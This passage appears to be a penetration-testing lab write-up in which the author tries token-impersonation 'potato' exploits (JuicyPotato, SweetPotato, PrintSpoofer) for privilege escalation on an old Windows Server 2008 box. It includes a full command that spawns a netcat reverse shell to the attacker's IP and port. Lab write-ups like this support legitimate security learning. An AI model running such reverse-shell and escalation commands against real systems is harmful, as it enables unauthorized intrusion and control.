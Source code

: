 Using Powershell did not work. Uploaded nc.exe felt very dirty doing so, but worked.
![](ncupload.png)

## PrivEsc

The Privilege Escalation is about finding the right exploit for a weird server. It is a weird Server 2008 version that states it is both a x64 and x86 image. 
![](livda.png)

Uploaded JuicyPotato exploit - [decoder exploit blog](https://decoder.cloud/2022/09/21/giving-juicypotato-a-second-chance-juicypotatong/) via FTP as presumably for FTP is being used by an administrator to interact with this box so no need for smelling the juiciest of potatoes, which smell very, very bad. 
![](juicypotato.png)

Forgot that my arsenal was not categorised correctly and uploaded the x64 version, because I am stupid. So used not being able to run `systeminfo`. Also as previously stated it a weird version with OS name even spelt incorrectly.
![](systeminfo.png)

I will use the BITS CLSID to remind myself of the exploit more than anything:
```
{69AD4AEE-51BE-439b-A92C-86AE490E8B30}
```

Then...reread what is vulnerable and what is not vulnerable and why from various source such as [jlajara](https://jlajara.gitlab.io/Potatoes_Windows_Privesc#genericPotato).

Double checking for the wpad entry
![](nowpadentry.png)

As per ACTUALLY READING THE INSTRUCTIONS
![](window2008server.png)

This failed for some reason that lead me to try both versions of PrintSpoofer.exe
```
.\potato.exe -ip 127.0.0.1 -cmd "c:\wamp\www\nc.exe 192.168.45.225 6969 -e c:\windows\system32\cmd.exe" -disable_exhaust true -disable_defender true --spoof_host WPAD.EMC.LOCAL
```

Built my own versions of both x86 and x64 SweetPotato considering [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens) for both [SweetPotato](https://github.com/CCob/SweetPotato) and [PrintSpoofer](https://github.com/itm4n/PrintSpoofer). x64 and x86 version return the same error
![](neitherx8664-sameerror.png)

But it is not actually running...
![](itran.png)

Ran wes.py and there are lots of Privilege Escalations to fall back on if required. I am just concern that seImpersonate Privilege is just glaring in the face. Due to the only documentation on any of the github repositories directly mentioning Windows Server 2008. I decided to retry the original. 
